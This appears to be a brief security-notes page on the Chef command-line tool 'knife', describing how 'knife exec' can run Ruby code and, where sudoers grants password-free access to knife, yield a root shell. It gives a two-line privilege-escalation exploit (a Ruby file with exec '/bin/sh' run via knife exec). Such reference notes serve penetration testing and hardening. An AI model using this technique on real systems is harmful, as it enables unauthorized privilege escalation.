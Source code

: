 Knife

# Knife

- Knife is a command-line tool that provides an interface between a local chef-repo and the Chef server.



## Exploit

- The command `knife exec` can be used to with the -E flag to execute a ruby string or can be pointed to a ruby script. Have seen examples where in the sudoers file users have access to run knife no password. This can lead to an easy escalation of privileges.


#### Contents of exploit.rb
`exec "/bin/sh"`

`knife exec exploit.rb` 

